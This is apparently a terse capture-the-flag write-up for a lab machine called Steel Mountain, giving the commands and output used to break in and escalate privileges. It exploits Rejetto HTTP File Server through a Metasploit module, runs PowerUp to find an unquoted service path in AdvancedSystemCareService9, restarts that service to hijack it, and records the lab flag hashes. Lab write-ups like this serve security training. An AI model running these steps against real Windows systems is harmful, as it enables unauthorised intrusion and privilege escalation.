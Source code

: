 # Steel_Mountains 

> VOiD | Friday 30 July 2021 12:02:01 AM IST

My IP : 10.17.6.109
Target IP : 10.10.202.66



meterpreter > cat user.txt
b04763b6fcf51fcd7c13abc7db4fd365

Rejetto HTTP File Server

To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell:
```bash

msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.64.5
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
load powershell and then powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks


Target 
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths




sc stop AdvancedSystemCareService9
sc start AdvancedSystemCareService9

9af5f314f57607c00fd09803a587db80
```



